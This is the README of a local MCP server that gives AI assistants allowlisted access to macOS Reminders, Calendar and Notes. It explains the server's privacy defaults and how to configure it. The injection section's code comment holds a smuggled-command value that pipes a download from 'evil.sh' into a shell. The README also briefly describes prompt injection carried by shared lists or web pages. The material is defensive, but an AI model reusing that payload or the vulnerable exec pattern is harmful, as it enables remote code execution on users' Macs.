

<div align="center">


<h1>Mac Organiser MCP</h1>

<p><b>Reminders, Calendar and Notes for your AI assistant, on your terms.</b><br>
Only the lists, calendars and folders you choose. Nothing else leaves the app.</p>


<sub><b>
<a href="#why">WHY</a> &nbsp;·&nbsp;
<a href="#what-your-assistant-can-do">TOOLS</a> &nbsp;·&nbsp;
<a href="#private-by-default">PRIVACY</a> &nbsp;·&nbsp;
<a href="#quick-start">QUICK START</a> &nbsp;·&nbsp;
<a href="#configuration">CONFIGURATION</a> &nbsp;·&nbsp;
<a href="#how-it-works">HOW IT WORKS</a>
</b></sub>

</div>

<br>


## Why

Most Apple MCP servers paste whatever the model sends straight into an AppleScript or a shell command. That means any text the model reads, such as a web page, an email or **a shared Reminders list someone else can edit**, can become a command running as you. They also tend to hand the model everything: every reminder, every note, every calendar.

This one takes the opposite approach on both counts:

- 🔒 **Nothing the model sends can ever run as code.** Each app has one fixed script, and your data travels to it only as a value.
- 🫥 **Your assistant sees only what you allow.** Lists, calendars and folders outside your allowlist are filtered inside the app itself, so they never reach the server, let alone the model.
- ✉️ **Nothing outward-facing.** It can't invite anyone, notify anyone or load anything from the internet.

> [!IMPORTANT]
> Anything a tool returns is sent to your model provider as part of the conversation. **Allowlists are your main control** over what that can include, so keep them tight.


## What your assistant can do

Each app is off until you enable it. Writes can be switched off per app, and deletes are always opt-in.

| | Tool | What it does | |
| --- | --- | --- | :---: |
| ✅ | `list_reminder_lists` | Names of the lists you've allowed | read |
| | `get_reminders` | Incomplete reminders by default, optionally one list | read |
| | `search_reminders` | Case-insensitive search on titles (and notes, if enabled) | read |
| | `create_reminder` | Title, list, notes, due date, priority | write |
| | `update_reminder` | Rename, reschedule, clear the due date, re-prioritise, complete | write |
| | `delete_reminder` | Permanent delete | opt-in |
| 📅 | `list_calendars` | The calendars you've allowed, with account and whether they're writable | read |
| | `get_events` | Events in a range, **recurring events expanded** into real occurrences | read |
| | `create_event` | Timed or all-day, with location and notes. Never with attendees | write |
| | `update_event` | Edits one event, or **one occurrence** of a recurring series | write |
| | `delete_event` | Removes one event or one occurrence | opt-in |
| 🗒️ | `list_note_folders` | The folders you've allowed | read |
| | `find_notes` | Titles only, newest first, optional text search | read |
| | `get_note` | A note's plain text (capped length) | read |
| | `create_note` | A new plain-text note | write |
| | `append_to_note` | Adds text to the end of a plain note | write |

Dates are ISO 8601: `2026-10-29`, `2026-10-29T14:00` (your local time) or `2026-10-29T14:00+11:00`.


## Private by default

| | Default | Opt in with |
| --- | --- | --- |
| Apps exposed | **none** | `MAC_ORGANISER_APPS=reminders,calendar,notes` |
| Calendars visible | **none** (allowlist required) | `CALENDAR_CALENDARS="Work,Home"`, or `*` for all |
| Notes folders visible | **none** (allowlist required) | `NOTES_FOLDERS="AI"`, or `*` for all |
| Reminder notes | never returned | `REMINDERS_ALLOW_NOTES=1`, then `includeNotes` per call |
| Event location, notes, URL | never returned | `CALENDAR_ALLOW_DETAILS=1`, then `includeDetails` per call |
| Completed reminders | hidden | `completed: true` per call |
| Note contents | only via `get_note`, one note at a time | |
| Delete tools | not exposed | `REMINDERS_ALLOW_DELETE=1`, `CALENDAR_ALLOW_DELETE=1` |

**Never returned, whatever you set:** event attendees, reminder creation and modification dates, the *Recently Deleted* notes folder, and the contents of locked notes.


## Quick start

### Requirements

| | |
| --- | --- |
| **macOS** | 14 Sonoma or later (Calendar uses EventKit's full-access API) |
| **Node.js** | 20 or later |
| **Client** | Any MCP client that can launch a local (stdio) server. See [Works with](#works-with) |

### Install

```bash
git clone <this repo> ~/repos/mac-organiser-mcp
cd ~/repos/mac-organiser-mcp
npm ci
npm run build
```

### Works with

It's a standard [Model Context Protocol](https://modelcontextprotocol.io) server that runs locally over stdio, so it isn't tied to any one assistant. Every client needs the same three things: the command `node`, the path to `dist/index.js`, and your settings as environment variables.

| Client | Where the config goes |
| --- | --- |
| Claude Code | `claude mcp add` (below) |
| Claude Desktop | `~/Library/Application Support/Claude/claude_desktop_config.json` |
| Cursor | `~/.cursor/mcp.json` |
| Windsurf | `~/.codeium/windsurf/mcp_config.json` |
| VS Code (agent mode) | `.vscode/mcp.json` in a workspace, or your user `mcp.json` |
| OpenAI Codex CLI | `~/.codex/config.toml` |
| ChatGPT app | ❌ Not supported: ChatGPT only connects to remote servers over HTTP |

> [!WARNING]
> You *can* put a local MCP server behind a public HTTPS tunnel so ChatGPT can reach it, but **don't do that with this one.** It would put your Reminders, Calendar and Notes on an internet-facing endpoint, which defeats the point of the design.

<details>
<summary><b>Claude Code</b></summary>

```bash
claude mcp add -s user mac-organiser \
  -e MAC_ORGANISER_APPS=reminders,calendar,notes \
  -e REMINDERS_LISTS="Reminders,Groceries" \
  -e CALENDAR_CALENDARS="Work,Home" \
  -e NOTES_FOLDERS="AI" \
  -- node ~/repos/mac-organiser-mcp/dist/index.js
```

</details>

<details>
<summary><b>Claude Desktop · Cursor · Windsurf</b></summary>

All three use the same `mcpServers` shape:

```json
{
  "mcpServers": {
    "mac-organiser": {
      "command": "node",
      "args": ["/Users/you/repos/mac-organiser-mcp/dist/index.js"],
      "env": {
        "MAC_ORGANISER_APPS": "reminders,calendar,notes",
        "REMINDERS_LISTS": "Reminders,Groceries",
        "CALENDAR_CALENDARS": "Work,Home",
        "NOTES_FOLDERS": "AI"
      }
    }
  }
}
```

> [!IMPORTANT]
> - Use the full path to `dist/index.js`. JSON configs don't expand `~` or placeholders.
> - GUI apps don't load your shell `PATH`. If Node comes from nvm, fnm or asdf, set `"command"` to the output of `which node` (e.g. `/Users/you/.nvm/versions/node/v22.x.x/bin/node`).
> - Claude Desktop only reads its config at launch, so quit it fully (⌘Q) and reopen after editing.

</details>

<details>
<summary><b>VS Code</b></summary>

VS Code uses `servers` and an explicit `type`:

```json
{
  "servers": {
    "mac-organiser": {
      "type": "stdio",
      "command": "node",
      "args": ["/Users/you/repos/mac-organiser-mcp/dist/index.js"],
      "env": {
        "MAC_ORGANISER_APPS": "reminders,calendar,notes",
        "REMINDERS_LISTS": "Reminders,Groceries",
        "CALENDAR_CALENDARS": "Work,Home",
        "NOTES_FOLDERS": "AI"
      }
    }
  }
}
```

</details>

<details>
<summary><b>OpenAI Codex CLI</b></summary>

```toml
[mcp_servers.mac-organiser]
command = "node"
args = ["/Users/you/repos/mac-organiser-mcp/dist/index.js"]

[mcp_servers.mac-organiser.env]
MAC_ORGANISER_APPS = "reminders,calendar,notes"
REMINDERS_LISTS = "Reminders,Groceries"
CALENDAR_CALENDARS = "Work,Home"
NOTES_FOLDERS = "AI"
```

</details>

Config formats change between client versions; if one doesn't match, check that client's MCP docs.

> [!TIP]
> A dedicated Notes folder (say, **AI**) makes a great allowlist: a scratchpad your assistant can read and write, while the rest of your notes stay out of reach.

### Permissions

macOS asks once per app the first time it's used. Click **Allow**.

| App | Where to review it |
| --- | --- |
| Reminders, Notes | System Settings › Privacy & Security › **Automation** |
| Calendar | System Settings › Privacy & Security › **Calendars** (full access) |
| Reminders, only for clearing a due date | System Settings › Privacy & Security › **Reminders** (full access) |

> [!NOTE]
> These permissions belong to the **host app** (Terminal, Cursor, VS Code, Claude Desktop…), not to this server. Anything else running inside that app gets the same access. The first Calendar call waits up to 40 seconds for you to answer the prompt.


## Configuration

Everything is an environment variable. Flags take `1`, `true` or `yes`.

| Variable | Default | |
| --- | --- | --- |
| `MAC_ORGANISER_APPS` | *(none)* | Comma-separated: `reminders`, `calendar`, `notes` |
| `REMINDERS_LISTS` | all lists | List-name allowlist; `*` for all |
| `REMINDERS_ALLOW_NOTES` | off | Lets the model request reminder notes |
| `REMINDERS_READ_ONLY` | off | Hides create and update |
| `REMINDERS_ALLOW_DELETE` | off | Exposes `delete_reminder` |
| `REMINDERS_MAX_RESULTS` | 50 | Up to 500 |
| `CALENDAR_CALENDARS` | **required** | Calendar names or ids; `*` for all |
| `CALENDAR_ALLOW_DETAILS` | off | Lets the model request location, notes and URL |
| `CALENDAR_READ_ONLY` | off | Hides create and update |
| `CALENDAR_ALLOW_DELETE` | off | Exposes `delete_event` |
| `CALENDAR_MAX_RESULTS` | 100 | Up to 1000 |
| `NOTES_FOLDERS` | **required** | Folder names; `*` for all |
| `NOTES_READ_ONLY` | off | Hides create and append |
| `NOTES_MAX_RESULTS` | 50 | Up to 500 |
| `NOTES_MAX_CHARS` | 20000 | Longest text `get_note` returns, up to 200000 |

If an app is enabled without its required allowlist, it stays off and the server says why on stderr.


## How it works



### Why injection can't happen

The usual pattern builds a script out of the model's text, so a stray `'` or `"` turns data into code:

```ts
// ❌ What many Apple MCP servers do
exec(`osascript -e 'set name of r to "${name}"'`);
//   name = `x'; curl evil.sh | sh; #`  →  runs curl
```

Here the script text never changes. The request is handed over as a separate argument, without a shell, and only ever read as data:

```ts
// ✅ Mac Organiser MCP
execFile('/usr/bin/osascript', ['-l', 'JavaScript', '-e', SCRIPT, JSON.stringify(request)]);
```

```js
// Inside SCRIPT
function run(argv) { return handle(JSON.parse(argv[0])); }
```

The live test suite sends exactly those payloads, among others, and checks that they're stored as plain text.

### Engines

| App | Engine | Why |
| --- | --- | --- |
| Reminders | Reminders scripting (JXA) | Fast enough in bulk. EventKit is used for one thing scripting can't do: clearing a due date |
| Calendar | EventKit via the JXA ObjC bridge | Much faster than scripting Calendar.app, and it expands recurring events correctly |
| Notes | Notes scripting (JXA) | Notes has no public framework |


## Ground rules

Every change is held to these.

1. **No code is ever built from input.** Scripts are fixed text; requests travel only as data.
2. **Filter at the source.** Allowlists and field limits are enforced inside the Apple app, so hidden data never reaches Node, logs or the model.
3. **Outside the allowlist means "not found".** For reads and writes alike, with no hint that something exists.
4. **Nothing outward-facing.** No attendees, no invitations, no update emails, no network calls. Events with attendees are read-only here.
5. **Never destroy what you can't restore.** Deletes are opt-in. Notes are never overwritten or deleted, and recurring events are only ever changed one occurrence at a time.
6. **Text stays text.** Notes content is HTML-escaped, so the model can't add links, markup or tracking images.
7. **Validate everything.** IDs, dates, priorities and lengths are checked before anything runs, as a second line of defence.
8. **Pinned dependencies.** Exact versions with a lockfile, two runtime dependencies, no install scripts.


## Limits

- **Notes:** no edit or delete. Notes can only be scripted by replacing a note's whole body, which can lose attachments, checklists and tables. For the same reason, `append_to_note` refuses notes that contain attachments, lists, tables or images.
- **Calendar:** no recurrence rules on new events, and events with attendees can't be changed or deleted here. Use Calendar.app for those.
- **Reminders:** no subtasks, tags, flags or locations; the scripting interface doesn't expose them.
- **Duplicate names:** if two calendars share a name, use the calendar id from `list_calendars`. Two Notes folders with the same name need renaming.
- **macOS only**, and the Mac has to be awake: everything runs locally.


## Development

| Command | What it does |
| --- | --- |
| `npm run build` | Compile TypeScript to `dist/` |
| `npm start` | Run the server on stdio |
| `npm run test:live` | End-to-end test against the real apps (see below) |

### Live tests

```bash
npm run build && npm run test:live
```

The suite creates an **MCP Test** reminders list, calendar and notes folder, locks every allowlist to them and runs all 16 tools through a real MCP client: 43 checks, including injection payloads, allowlist escapes, recurring-event occurrences and due-date clearing. It deletes the fixtures when it's done, and it won't start if anything called *MCP Test* already exists. None of your other data is read.

### Layout

```text
src/
  index.ts        Registers each enabled app
  config.ts       Environment variables and their defaults
  osascript.ts    Runs a fixed JXA script with one JSON argument; shared helpers
  reminders.ts    Reminders tools and script
  calendar.ts     Calendar tools and EventKit script
  notes.ts        Notes tools and script
test/
  live.mjs        End-to-end suite over MCP
  fixtures.js     Creates and removes the MCP Test fixtures
```

## Licence

[MIT](LICENSE) © 2026 Nick Sullivan
